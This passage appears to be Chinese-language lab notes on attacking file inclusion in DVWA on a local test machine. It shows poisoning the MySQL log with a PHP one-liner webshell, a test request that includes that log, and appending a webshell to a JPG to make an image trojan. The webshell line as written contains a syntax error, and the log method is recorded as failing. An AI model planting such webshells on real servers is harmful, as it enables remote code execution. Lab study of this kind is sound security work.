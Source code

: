 ```
mysql> show variables like 'general_log_file';
```

尝试登录`dvwa`

![image-20220928185932550](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928185932550.png)

然后查看刚刚的日志文件

![image-20220928190004605](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928190004605.png)

使用php一句话木马尝试登录

![image-20220928190051597](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928190051597.png)

成功，数据没有进行任何处理

测试一下：

```
http://192.168.235.152/test.php?cmd=/usr/local/mysql/data/localhost.log&shell=phpinfo()
```

![image-20220928190154399](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928190154399.png)

还是权限不够，添加权限

```
[root@localhost data]# chmod 777 /usr/local/mysql/data/localhost.log
```

还是不行

![image-20220928190531100](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928190531100.png)

[TODO] 为什么不行？

## 四、包含上传文件

在根目录里创建一个文件夹`tem`，并在里面存储一张图片和一句话木马

![image-20220928192101802](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928192101802.png)

`muma.php`内容如下

```
<?php @assert($_GET['shell'];)?>
```

合成图片

```
[root@localhost tem]# cat muma.php >> cmd.jpg
```

cat查看图片

![image-20220928192341838](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928192341838.png)
